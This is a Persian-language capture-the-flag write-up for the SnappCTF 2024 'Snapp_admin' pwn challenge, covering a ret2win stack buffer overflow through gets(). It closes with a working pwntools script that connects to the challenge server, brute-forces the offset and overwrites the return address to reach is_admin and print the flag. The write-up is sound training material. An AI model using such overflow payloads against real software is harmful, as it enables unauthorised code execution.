





---
tags:
  - SnappCTF
  - SnappCTF-2024
  - PWN
  - Exploit
  - GDB
  - Pwntools
  - BufferOverflow
---
# Snapp_admin

<center>

</center>

سلام گایززز چطور مطوریایین؟
خب بریم با ی چلنج دیگه از SnappCTF ببینیم چیخبراست؟! :)
در ابتدای کار با استفاده از ابزار checksec متوجه میشیم که فایل باینری دارای Stack Canary و PIE نیست.

<center>

</center>

بعد از این کار سعی میکنیم تا با ghidra یک بررسی روی توابع برنامه انجام بدیم و با چنین صحنه ای مواجه میشیم(قسمت هایلایت شده) :

<center>

</center>

وجود تابع gets در برنامه ما رو به این سمت هدایت میکنه که برنامه آسیب پذیری BufferOverflow رو داره. از طرفی وجود تابع is_admin تاییدی هست برای این موضوع که باید از تکنیک [ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win) استفاده کنیم. 

<center>

</center>

به طور خلاصه کاری که در این تکنیک انجام میشه این هست که return pointer یا EIP(rip) رو overwrite میکنیم به سمت یک آدرس دلخواه تا پس از اتمام یک تابع به جای برگشت برنامه به مسیر و روند اصلی خود، به سمت دلخواه ما تغییر مسیر دهد و تابع مورد نظر ما اجرا شود.
برای اینکه این کارو انجام بدیم نیاز هست که بدونیم offset ما کجاست و درواقع در کجای استک هست که rip از اونجا شروع میشه و با بازنویسی (Overwrite) کردن اون میتونیم به هدفمون برسیم.
قبل از اینکه به تابع gets برسیم خیلی واضح هست که باید اولین ورودی که به برنامه میدیم باید عدد 9606 باشه تا بتونیم وارد دستورات بلوک if بشیم و تابع gets از ما ورودی بعدی رو بگیره.
خیلی راحت سعی میکنم تا برنامه رو توی gdb بازش کنیم و با استفاده از دستورات  مثل pattern create و pattern search به پیدا کردن offset ها میپردازیم. لینک زیر بهتر میتونه شما رو در این باره راهنمایی کنه : 

[Pattern](https://hugsy.github.io/gef/commands/pattern/)

بعد از پیدا کردن offset سعی میکنیم تا تابعی که قصد داریم تا در نهایت به سمت اون ret کنیم رو در payload خودمون بذاریم و اون رو به برنامه بدیم.
برای پیدا کردن آدرس تابع is_admin میتونیم از دستور زیر استفاده کنیم: 

`readelf -s snapp_admin | grep -i is_admin`

یا توی gdb از دستور info functions استفاده کنیم.
با پیدا کردن offset و آدرس تابع is_admin و به کار گرفتن pwntools حالا خیلی راحت میتونیم به is_admin برسیم.
تنها قدمی که میمونه اینه که ما بعد از ورود به تابع is_admin باید دو مقدار دیگه رو به عنوان ورودی به برنامه بدیم تا فلگ برامون نمایش داده بشه. اولین مقداری که بعد از ورود به این تابع به برنامه میدیم باید 9600 باشه. چرا که تابع read تنها در صورتی که اولین آرگومانش صفر باشه میاد ازما ورودی بعدی رو میگیره و ما به گرفتن ورودی بعدی نیاز داریم چرا که باید دستورات درون بلوک if اجرا شوند که شامل دستور نمایش فلگ هم هست. در آخرین قسمت ماجرا هم برنامه از ما ورودی چهارم رو که SNAPP هست رو میگیره و تمام!

<center>

</center>


و در آخر exploit نهایی این چالش :
```python
from pwn import *

context.log_level = "critical"
# ncat --proxy-type socks5 --proxy 127.0.0.1:2080 91.107.177.236 1337
# context.proxy = (socks.SOCKS4, "127.0.0.1", 2080)

def run(i):
    p = remote('91.107.177.236', 1337)
    p.sendline(b'9606')
    p.sendline(b'a'*i + p64(0x40101a) + p64(0x00401296))
    p.sendline(b'9600')
    p.sendline(b'SNAPP')
    if 'SNAPP{' in (res:=p.clean(2).decode()):
        print(f"[!] offset={i}\n{res}")

for i in range(8, 16):
    run(i*4)
```


??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{Wh3Re_is_@dm1n_I_f0rgoT_my_cOd3}`</div>

--- 

!!! نویسنده
    [nim0x2a](https://github.com/nim0x2a)

	